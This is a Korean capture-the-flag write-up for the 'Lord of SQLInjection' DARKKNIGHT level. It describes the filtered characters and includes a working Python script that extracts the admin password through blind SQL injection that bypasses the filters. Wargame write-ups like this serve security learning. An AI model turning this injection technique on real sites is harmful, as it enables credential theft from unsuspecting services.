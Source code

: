 ```yaml
---
title: "Lord of SQLInjection - DARKKNIGHT"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# DARKKNIGHT
## 문제
![img](/assets/images/los/darkknight1.png)

- 따옴표('), substr, ascii, = 문자를 필터링한다.
- 따옴표를 사용할 수 없기 때문에 no를 통해서 admin의 패스워드를 추출할 수 있다.

## 정답

![img](/assets/images/los/darkknight2.png)

![img](/assets/images/los/darkknight3.png)

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php"

cookie = {'PHPSESSID' : 'PHP 세션 아이디'}

pass_len = 0

for length in range(1,30):
    query = "?pw=1&no=0 or id like 0x61646d696e and %d in (length(pw))" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=1&no=0 or id like 0x61646d696e and ord(mid(pw,%d,1)) in (%d) %%23" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)
```